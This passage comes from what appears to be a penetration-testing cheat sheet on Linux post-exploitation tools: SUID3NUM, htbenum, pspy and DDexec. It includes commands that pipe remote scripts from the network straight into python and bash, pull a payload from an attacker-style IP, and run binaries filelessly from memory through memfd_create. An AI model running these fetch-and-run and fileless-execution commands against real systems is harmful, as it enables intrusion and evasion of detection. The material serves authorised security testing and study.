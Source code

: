 * [https://github.com/Anon-Exploiter/SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)

```
$ python <(wget -qO- https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py)
```


#### htbenum

* [https://github.com/SolomonSklash/htbenum](https://github.com/SolomonSklash/htbenum)


#### pspy

* [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)

A lightweight alternative with Bash:

{% code title="pspy.sh" %}
```bash
#!/usr/bin/env bash

old=$(ps -eo command)

while true; do
        new=$(ps -eo command)
        diff <(echo "$old") <(echo "$new") | grep [\<\>]
        sleep .3
        old=$new
done
```
{% endcode %}


#### DDexec

- [https://github.com/arget13/DDexec](https://github.com/arget13/DDexec)

{% embed url="https://youtu.be/MaBurwnrI4s" %}

Run binaries from memory without touching the disk:

```
$1 base64 /bin/ls -w0 > ls.b64
$2 curl -sS 10.10.13.37/ls.b64 | bash <(curl -sSL https://github.com/arget13/DDexec/raw/main/ddexec.sh) /bin/NonExistentBinary -la
```

Another trick to do semi-fileless ELF execution with a pre-created process descriptor:

```
$ python3 -c 'import os;os.fork()or(os.setsid(),print(f"/proc/{os.getpid()}/fd/{os.memfd_create(str())}"),os.kill(os.getpid(),19))'
$ cat /usr/bin/date > /proc/1732982/fd/4
$ /proc/1732982/fd/4
```



### Old Ubuntu Quick Deploy (Cheatsheet)
